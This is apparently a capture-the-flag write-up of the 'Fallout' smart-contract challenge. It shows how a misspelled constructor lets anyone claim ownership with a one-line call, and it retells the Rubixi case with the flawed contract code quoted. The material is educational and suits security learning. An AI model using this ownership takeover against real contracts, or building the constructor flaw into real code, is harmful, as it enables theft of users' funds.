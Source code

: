 # 2. Fallout

## Key value

What it seems a constructor isn't it, because of a mispelling.

## Solution

1. Become owner of the

```js
contract.Fal1out({ value: 1 });
```

## Post solution info

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```js
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
